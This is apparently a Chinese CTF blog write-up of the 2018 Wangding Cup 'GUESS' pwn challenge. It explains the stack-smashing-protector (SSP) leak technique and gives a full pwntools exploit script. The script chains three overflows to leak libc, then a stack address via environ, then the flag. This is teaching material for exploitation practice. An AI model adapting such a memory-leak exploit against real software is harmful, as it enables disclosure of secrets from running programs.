

title: 2018网鼎杯guess (ssp leak)

comments: true

date: 2018-08-22 08:13:34

categories:
- CTF
- ssp leak


[题目下载](GUESS_3761eaaa3eb6e09db4eecc56b64f32e3.zip)


## 分析题目

 


程序把flag读在栈上，提供了栈溢出，但是有canary保护，看似没有其他漏洞了.

可以使用[ssp leak](https://amliaw4.github.io/2018/08/22/ssp-leak/)，但是不知道栈地址。

从程序提供3次输入机会想到可以先用got地址泄露libc，然后用libc上的environ泄露栈地址，然后算出得到的栈地址与flag的距离，最后拿flag。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
# context.log_level = 'debug'

environ = 0x03C6F38
p = process("./GUESS")
p.sendline(p64(0x602040)*0xa0)
print p.recvuntil("***: ")
read_offset = u64(p.recv(6).ljust(8, "\x00"))
libc = read_offset - 0xF7250
environ += libc
print hex(libc)

p.recvuntil("flag\n")
p.sendline(p64(environ)*0xa0)
print p.recvuntil("***: ")
stack = u64(p.recv(6).ljust(8, "\x00"))
print hex(stack)

p.recvuntil("flag\n")
p.sendline(p64(stack - 0x168)*0xa0)
print p.recvuntil("***: ")
print p.recvline()
p.close()

```

- 地址 0x03C6F38：
  - environ地址
  - `libc.symbols['__environ']`

- 地址 0x602040：
  - read 的 got.plt 地址

- 地址 0xF7250：
  - `libc.symbols['read']`


## 参考

https://paper.tuisec.win/detail/f8d629ce47c117c

https://xz.aliyun.com/t/2608#toc-7